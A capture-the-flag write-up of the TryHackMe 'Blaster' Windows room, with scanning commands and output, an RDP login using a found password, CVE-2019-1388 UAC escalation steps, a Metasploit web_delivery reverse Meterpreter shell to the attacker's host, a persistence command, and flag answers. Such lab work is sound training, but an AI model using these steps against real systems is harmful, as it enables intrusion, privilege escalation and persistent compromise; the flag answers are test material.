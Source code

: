 # Blaster

## Mission Start!

The CTF background notes that we’ll be attacking a Windows box. So no ping responses again.

## Activate Forward Scanners and Launch Proton Torpedoes

The machine we’ll be attacking is at 10.10.223.185. As usual, we’ll start out with an [nmap](nmap.md) scan:

```bash
sudo nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
```

Which gives us:

```
# Nmap 7.92 scan initiated Wed Dec  8 19:55:54 2021 as: nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.223.185
Host is up (0.23s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.013 days (since Wed Dec  8 19:54:04 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.47 ms  10.13.0.1
2   ... 3
4   351.16 ms 10.10.223.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  8 20:12:16 2021 -- 1 IP address (1 host up) scanned in 982.31 seconds
```

FLAG 1: How many ports are open on the target? — 2

Looks like IIS running on port 80. Let’s go take a peek.

…And, it’s just the default IIS “hello world” page. Looks a damn sight prettier than Apache’s.

FLAG 2: What is the title of the webserver’s index page? — IIS Windows Server

Since there’s nothing obvious here (and because the CTF is prompting us to do so), let’s sic [gobuster](gobuster.md) on this to see if there’s anything interesting that’s not linked to the (default) index page.

```bash
gobuster -t 10 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.223.185/
```

FLAG 3: What is the hidden directory on the webserver? — /retro

Browsing to this directory reveals an entire “Retro Fanatics” website. All posts are by “Wade”.

FLAG 4: What username is associated with this hidden directory? — Wade

Pocking around a bit more reveals a somewhat cryptic comment on a post:

> Leaving myself a note here just in case I forget how to spell it: parzival

Who wants to bet that this is Wade’s password?

FLAG 5: What potential password is associated with this user? — parzival

Let’s load up [XFreeRDP](xfreerdp.md) and see if we can log in, shall we?

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.223.185 /u:Wade /p:parzival
```

Boom!

FLAG 6: What are the contents of `user.txt`? — `THM{HACK_PLAYER_ONE}`

## Breaching the Control Room

There’s no obvious files when pocking around except an hhupd.exe file on the desktop, and IE’s history is empty.

Since I know we’re looking for a CVE name, at this point I just used the Windows File Explorer to search Wade’s home directory for “CVE”. And lo-and-behold, there’s a cached HTML file in C:/Users/Wade/AppData/Local/Microsoft/Windows/INetCache/Low/IE/7Z6YUWVY called cvename[1].htm which contains a website referencing CVE-2019-1388 (it looks like a slightly older version of [the MITRE CVE page on CVE-2019-1388](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388)).

FLAG 7: What CVE was the initially compromised user researching? — CVE-2019-1388

(I feel like the approach I just used — making an educated guess about what the CTF was looking for and then just searching for it — is kind of a cop-out. *But*, the hint for this question states that I should check IE’s history, which I did… So perhaps the room’s broken?)

Anyways, I’m guessing that the hhupd.exe file on the desktop is the one that will exploit this vulnerability, since it’s badged as needing administrative privileges and CVE-2019-1388 is a vulnerability in the UAC screen.

FLAG 8: What is the name of the executable the user was experimenting with? — hhupd.exe

In fact, a search for “CVE-2019-1388 exploit” pulls up [this page](https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/) as its first result, which references hhupd.exe and helpfully links to [a YouTube video demoing how this exploit works](https://www.youtube.com/watch?v=3BQKpPNlTSo). It looks like the steps here are:

* Try to run hhupd.exe.
* Show details on the UAC prompt.
* Click on the certificate information link.
* Click on the issuer link. This will open up an instance of IE running with elevated permissions in the background.
* Exit the UAC dialog.
* Bring up the save dialog in IE.
* Navigate to `C:/Windows/System32/*.*` and open cmd.exe.

FLAG 9: What is the output of `whoami` in the terminal spawned using the user’s exploit? — `nt authority\system`

The final flag is in the Administrator’s Desktop folder.

FLAG 10: What are the contents of `root.txt`? — `THM{COIN_OPERATED_EXPLOITATION}`

## Adoption into the Collective

Target information isn’t immediately obvious in [Metasploit](metasploit.md); after selecting `exploit/multi/script/web_delivery` we’ll need to run `info` to see all of the options.

FLAG 11: What is the target number for PSH when using `exploit/multi/script/web_delivery` in [Metasploit](metasploit.md)? — 2

Let’s set things up and run the exploit:

```msfconsole
set target 2
set SRVHOST 10.13.26.40
set LHOST 10.13.26.40
set payload windows/meterpreter/reverse_http
run -j
```

(NOTE: I found that I needed to set the SRVHOST option to get [Metasploit](metasploit.md) to deliver the exploit on the right interface.)

This particular exploit outputs and encoded [PowerShell](powershell.md) script and then starts a local listener to deliver the actual [Meterpreter](metasploit.md) shell. All we need to do is cut-and-paste into our elevated shell.

(For whatever reason, I could *only* get this exploit working with the 32-bit version of [Meterpreter](metasploit.md) *and* the `run -j` command. I’m not sure why…)

FLAG 12: What command can be used in [Meterpreter](metasploit.md) to establish on-boot persistence on this machine? — `run persistence -X`

(NOTE: [Meterpreter](metasploit.md) flags this as being deprecated now; the modern pattern seems to be to background [Meterpreter](metasploit.md) and then switch to and exploit the `exploit/windows/local/persistence` module, probably with `set STARTUP SYSTEM`.)

ELAPSED TIME: 2 h 15 min

## References

* [TryHackMe: Blaster](https://tryhackme.com/room/blaster)

- - - -

👤 Nathan Acks  
📅 December 6, 2021
